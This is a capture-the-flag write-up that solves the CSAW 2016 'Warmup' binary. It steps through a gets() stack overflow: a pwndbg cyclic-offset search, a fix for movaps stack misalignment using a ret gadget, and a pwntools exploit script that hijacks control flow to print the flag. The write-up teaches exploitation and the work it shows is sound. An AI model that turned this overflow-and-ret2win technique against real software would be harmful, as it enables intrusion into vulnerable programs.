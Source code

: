 
# Warmup

The `main()` function puts the input buffer into the vulnerable `gets()` function as an argument.

```c
void main(void)

{
  char local_88 [64];
  char buffer [64];
  
  write(1,"-Warm Up-\n",10);
  write(1,&DAT_0040074c,4);
  sprintf(local_88,"%p\n",easy);
  write(1,local_88,9);
  write(1,&DAT_00400755,1);
  gets(buffer);
  return;
```

There is an `easy` function at `0x40060d` that prints out `flag.txt`.

```shell
void easy(void)

{
  system("cat flag.txt");
  return;
}
```

Generate a cyclic pattern in `gdb`

```
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

pwndbg> r a
Starting program: /home/wither/NOTES/CSAW/2016/Warmup/warmup a
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
-Warm Up-
WOW:0x40060d
>aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

Find the offset of the pattern that clobbered the return address at **72** bytes.

```
0x4006a4 <main+135>    ret                                <0x616161616161616a>

cyclic -l "0x616161616161616a"

Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```

The expected payload didn't work

```
run < <(python3 -c 'import sys; from pwn import *; sys.stdout.buffer.write(b"A"*72 + p64(0x40060d))')

Starting program: /home/wither/NOTES/CSAW/2016/Warmup/warmup < <(python3 -c 'import sys; from pwn import *; sys.stdout.buffer.write(b"A"*72 +  p64(0x40060d))')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
-Warm Up-
WOW:0x40060d
>
Program received signal SIGSEGV, Segmentation fault.
```

Taking a closer look at the `easy` function.

```
disass easy

Dump of assembler code for function easy:
   0x000000000040060d <+0>:     push   rbp
   0x000000000040060e <+1>:     mov    rbp,rsp
   0x0000000000400611 <+4>:     mov    edi,0x400734
   0x0000000000400616 <+9>:     call   0x4004d0 <system@plt>
   0x000000000040061b <+14>:    pop    rbp
   0x000000000040061c <+15>:    ret
End of assembler dump.
```

Create a breakpoint at the `system` function, right before `cat flag.txt` and run the payload.

```
b *0x400616
Breakpoint 1 at 0x400616

pwndbg> run < <(python3 -c 'import sys; from pwn import *; sys.stdout.buffer.write(b"A"*72 + p64(0x40060d))')
```

The program will crash right here, at the `moveaps` instruction, which gdb tells us is **not aligned to 16 bytes**. 

```
 ► 0x7ffff7c5843b <do_system+363>    movaps xmmword ptr [rsp + 0x50], xmm0     <[0x7fffffffd978] not aligned to 16 bytes>
```

This can be confirmed by printing in hex if the current $rsp % 16. If it was **16-byte aligned**, $rsp % 16 would be 0. Instead, the current $rsp is **8 bytes** misaligned.

```
p/x (unsigned long)$rsp % 16

$1 = 0x8
```

To fix this, find a `ret` gadget using `ropper`.

```shell
 ropper --file warmup --search "ret"
 
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: warmup
0x0000000000400595: ret 0xc148;
0x00000000004004a1: ret;
```

Add the address of the gadget in front of the payload to **pop** the misaligned bytes, ensuring our payload is **16-byte aligned**, thus executes without crashing and gives us the flag.

```
run < <(python3 -c 'import sys; from pwn import *; sys.stdout.buffer.write(b"A"*72 + p64(0x4004a1) + p64(0x40060d))')

Starting program: /home/wither/NOTES/CSAW/2016/Warmup/warmup < <(python3 -c 'import sys; from pwn import *; sys.stdout.buffer.write(b"A"*72 + p64(0x4004a1) + p64(0x40060d))')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
-Warm Up-
WOW:0x40060d
>[Attaching after Thread 0x7ffff7fa8740 (LWP 44634) vfork to child process 44640]
[New inferior 2 (process 44640)]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Detaching vfork parent process 44634 after child exec]
[Inferior 1 (process 44634) detached]
process 44640 is executing new program: /usr/bin/dash
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Attaching after Thread 0x7ffff7fa8740 (LWP 44640) vfork to child process 44641]
[New inferior 3 (process 44641)]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Detaching vfork parent process 44640 after child exec]
[Inferior 2 (process 44640) detached]
process 44641 is executing new program: /usr/bin/cat
warning: could not find '.gnu_debugaltlink' file for /usr/bin/cat
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

flag{g0ttem_b0yz}
```

This can easily be automated with Python and pwntools

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'ERROR'

context.binary = elf = ELF("./warmup", checksec=False)
p = process()

payload = b"A"*72 + p64(0x4004a1) + p64(0x40060d)

p.sendline(payload)
print(p.recvline().decode())
print(p.recvline().decode())
print(p.recvline().decode())
```

To get the flag.

```shell
python3 exploit.py
 
-Warm Up-

WOW:0x40060d

>flag{g0ttem_b0yz}
```